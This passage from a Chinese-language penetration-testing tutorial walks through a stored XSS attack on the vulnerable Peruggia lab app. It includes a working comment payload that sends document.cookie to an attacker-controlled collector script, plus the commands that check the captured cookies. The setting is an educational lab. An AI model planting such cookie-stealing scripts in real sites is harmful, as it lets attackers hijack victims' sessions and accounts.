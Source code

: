 这个 PHP 脚本会收集由 XSS 发送的所有 cookie。为了确保它能工作，访问` http://127.0.0.1/savecookie.php?cookie=test`，并且检查`/tmp/cookie_data.txt`的内容：

```
cat /tmp/cookie_data.txt 
```

如果它显式了`test`单词，就能生效。下一步就是了解 Kali 主机在 VirtualBox 主机网络中的地址，执行：

```
ifconfig
```

对于这本书，Kali 主机 的`vboxnet0`接口 IP 为 192.168.56.1 。

### 操作步骤

1.  我们在这个秘籍中会使用两个不同的浏览器。OWASP Mantra 是攻击者的浏览器，Iceweasel 是受害者的浏览器。在攻击者的浏览器中，访问`http://192.168.56.102/peruggia/`。

2.  让我们给页面的图片添加一条评论，点击`Comment on this picture`。

    ![](img/6-6-1.jpg)

3.  在文本框中输入下列代码：

    ```html
    <script> 
        var xmlHttp = new XMLHttpRequest(); 
        xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
        xmlHttp.send( null ); 
    </script>
    ```
    
4.  点击`Post`。

5.  页面会执行我们的脚本，即使我们看不见任何改动。检查 Cookie 文件的内容来查看结果。在我们的 Kali 主机上，打开终端并执行：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    ![](img/6-6-2.jpg)
    
    文件中会出现新的条目。
    
6.  现在，在受害者浏览器中访问` http://192.168.56.102/peruggia/`。

7.  点击`Login`。
